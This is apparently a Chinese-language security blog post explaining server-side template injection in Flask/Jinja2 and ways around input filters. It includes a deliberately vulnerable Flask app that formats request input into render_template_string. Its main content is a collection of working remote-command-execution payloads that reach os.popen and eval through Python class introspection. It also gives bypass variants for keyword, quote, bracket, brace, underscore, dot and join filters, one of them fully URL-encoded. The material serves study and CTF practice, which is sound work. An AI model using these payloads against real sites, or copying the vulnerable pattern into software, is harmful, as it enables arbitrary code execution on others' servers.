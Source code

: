 ```yaml
---
layout:     post
title:      ssti
subtitle:   ssti
date:       2020-08-29
author:     RRY
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - python ssti jinja2
---
```

# ssti

### 0x00前置知识
模块是一个包含响应文本的文件，其中包含占用位变量表示的动态部分，其具体值只在请求的上下文中才知道。使用真实值替换变量，再返回最终得到的响应字符串，这一过程称为渲染。为了渲染模块，Flask使用一个名为Jinja2的强大模板引擎。

__1. 变量__
```python
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def index():
    name = "rry"
    temlate = '''
        <h1>hello,{{name}}</h1>
    '''
    return render_template_string(temlate,name=name)
    
if __name__ == '__main__':
    app.debug = True
    app.run()
```
__2. if条件__

   ![d7qKZF.png](https://s1.ax1x.com/2020/08/29/d7qKZF.png)

3. for循环和宏定义类似，这里就不举例了。
4. 如果需要用到占位符，`{% %}`换成`{%% %%}`
   

### 0x01实现原理
```python
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

app.config['SECRET_KEY'] = "flag{SSTI_123456}"
@app.route('/')
def index():
    template = '''
        {%% block body %%}
        hello,%s
        {%% endblock %%}
    '''  % (request.args.get('name'))
    return render_template_string(template), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0',debug=True)
```
__1. python内置了许多方法如__
	- `__class__`返回对象所属的类。
	- `__bases__`以元组的形式返回一个类所直接继承的类。
	- `__base__`以字符串返回一个类所直接继承的类。
	- `__mro__`返回解析方法调用的顺序。
	- `__subclasses__()`获取类的所有子类。
	- `__init__`所有自带带类都包含init方法，便于利用他当跳板来调用globals。
	- `__globals__`通过`function.__globals__`，用于获取函数所处空间下可使用的module、方法以及所有变量。
	- `__getattribute__` 使用实例访问属性时,调用该方法
	- `__dict__` 查看方法
__2. 通过模板渲染和自带方法我们可以实现任意命令执行__
	- 首先通过'`"".__class__`获得str类
	- 再用`"".__class__.__bases__`或者`"".__class__.__mro__[1]`获得基类
	- `.__subclasses__()`可以获取所有子类
	- 再使用`.__init__.__globals__[]`找到包含os模块的子类
	- 最终payload`?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}`

```python
# python3
# 一个常见的poc
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
    	{% for b in c.__init__.__globals__.values() %}
			{% if b.__class__ == {}.__class__ %}
      			{% if 'eval' in b.keys() %}
					{{b['eval']('__import__("os").popen("dir").read()')}}
     			{% endif %}
    		{% endif %}
		{% endfor %}
	{% endif %}
{% endfor %}
```
其他的的利用先贴一张图（好眼熟hhhh）
![img](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)
这里warnings其实是个module，如果报错`jinja2.exceptions.UndefinedError: 'warnings' is undefined`是因为没有导入warnings模块，但是导入后其实同样不能用，原因可以能是jinja2的渲染过滤掉了warnings，不让用了吧
只有在本地是可以这样用的
![dGML3n.png](https://s1.ax1x.com/2020/08/20/dGML3n.png)
但是不同环境，下标不同，这个方法在py3.8是不是就不能用了呢。。。

### 0x02绕过检测
1. __关键字过滤__
	- 字符串拼接`{{""["__cla"+"ss__"]}}`
   
	- 字符串拼接`{{"".__getattribute__("__cla"+"ss__")}}`(python3好像不能字符串拼接了，只能用这个函数传一个字符串过去....)
   
	- format替换`{{fl{0}g.format('a')}}`
   
	- doc方法，返回类或函数的介绍`{{''.__class__.__doc__[1]}}`
   
     ![dyp7lj.png](https://s1.ax1x.com/2020/08/24/dyp7lj.png)
   
	- replace和join过滤器`{{'aay'|replace('a','r')}}`	`{{'rr''y'|join}}`
   
	- python2的一种方法(pyhon3的字符串没有decode方法)`{{'X19jbGFzc19f'.decode('base64')}}`
   

__2. 引号过滤__
   首先我们从引号的作用出发，第一个引号是为了用字符串来引出基类object，而任何数据结构都可以引出基类，比如0，[]，{}，后面的引号是用来获得键值，我们可以利用request.args或者request.values绕过，request.args是flask用来存储请求参数的一个字典。
   ![dy9pp4.png](https://s1.ax1x.com/2020/08/24/dy9pp4.png)

```python
http://127.0.0.1:5000/?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[request.args.a][request.args.b](request.args.c).read()}}&a=os&b=popen&c=whoami
```
   还可以利用chr()和set来绕过，首先fuzz一下找到chr()
```python
{{().__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr}}
```
   ![dyezlV.png](https://s1.ax1x.com/2020/08/24/dyezlV.png)

```python
{%set chr=[].__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr%}{{[].__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[chr(111)+chr(115)][chr(112)+chr(111)+chr(112)+chr(101)+chr(110)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)).read()}}
```
   这里加号一定要用url编码成%2B防止被解码成空格，然而像下面这样全部url编码也是可以的。
```python
%7b%25%73%65%74%20%63%68%72%3d%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%73%5f%5f%5b%30%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%63%68%72%25%7d%7b%7b%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%6d%72%6f%5f%5f%5b%31%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%5b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%35%29%5d%5b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%30%31%29%2b%63%68%72%28%31%31%30%29%5d%28%63%68%72%28%31%31%39%29%2b%63%68%72%28%31%30%34%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%39%37%29%2b%63%68%72%28%31%30%39%29%2b%63%68%72%28%31%30%35%29%29%2e%72%65%61%64%28%29%7d%7d
```

__3. 中括号过滤__
   点号代替中括号的作用
```
{{''.__class__.__mro__.1.__subclasses__().299.__init__.__globals__.os.popen('whoami').read()}}
```
   利用`__getitem__();a[2] == a.__getitem__(2)`
   利用join进行绕过`{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_`

__4. 双大括号过滤__
   利用jinja2的条件和循环语法
```python
{% for i in list %}
	{% if 1==1 %}
	{% endif %}
{% endfor %}
# 可以使用上面贴的常用poc
```
__5. 阉割过滤__
   builtins是python的内建模块，所谓内建模块就是你在使用时不需要import，python启动后，在没有执行程序员编写的任何代码前，python会加载内建模块中的函数到内存中。比如经常使用的abs(),str(),type()等。而在python2.x中这个模块叫做builtins.如果你需要向内建模块中添加自己的函数，则必须import builtins(在main模块中可以直接通过builtins添加函数，不需要import builtins)
   python2中可以通过重新载入builtins来恢复被删除掉的方法。python3中已经不能直接使用reload函数，需要导入imp库

```
reload(__builtins__)
```
   ![dfe7PU.png](https://s1.ax1x.com/2020/08/26/dfe7PU.png)
__6. 下划线过滤__
   request.args绕过
   {{""["\x5f\x5fclass\x5f\x5f"]}}有的时候python并不支持这种写法，"\x5f"是字符 ”_“，”\x2E"是字符 "."
   { { request.headers['X-Forwarded-For']} } ，没有尝试。
   Jinja有类似Linux管道机制的语法，即'|'符号。利用此语法加上attr()方法，就可以达到在方括号中书写属性名称一样的效果.。
```python
{{[]|attr('__class__')}}
{{[].__class__}}
# 两者是相当的
```
由此我们可以逐步将payload转换成不带下划线的格式
```python
# 1.0
{{''.__class__.__base__.__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}
# 2.0
# {{''|attr('__class__')|attr('__base__')|attr('__subclasses__')()[299]}}拼接到这里的时候出现语法错误，但是按照下面当做二维列表就可以取到想要的类了(神奇*1...)。
{{[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]}}
# 3.0继续拼接，只要用到中括号取值就要搞成二维列表取0
{{[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']}}
# 4.0但是接下来取popen就不用二维列表...当然用上了不会出错(神奇*2...)
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']}}
# 5.0继续加上剩下的
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 6.0再利用join特性将_分离([1,2,3]|join 结果为123)
{{[[[''|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][299]|attr(['_'*2,'init','_'*2]|join)|attr(['_'*2,'globals','_'*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 7.0最后_替换[[]|map|string|list][0][20]，得到最终payload
{{[[[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][299]|attr([[[]|map|string|list][0][20]*2,'init',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'globals',[[]|map|string|list][0][20]*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
```
__7. 点号过滤__
   attr的使用，同上
__8. |join过滤__
   `blacklist = ["__","request[request.","__class__",'[',']',"|join"]`
   使用管道+format方法，用格式化字符串生成被过滤的字串。
```python
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```   

> 参考文章
>
> https://xz.aliyun.com/t/6885
>
> https://xz.aliyun.com/t/3679
>
> https://blog.csdn.net/slamx/article/details/49286863
>
> https://www.cnblogs.com/caicairui/p/7778410.html?utm_medium=referral
>
>https://diego-x.github.io/2020/05/20/Flask-ssti%E7%BB%95%E8%BF%87/
>
>https://www.cnblogs.com/Mrfanl/p/10198174.html
>
>https://www.jianshu.com/p/a736e39c3510
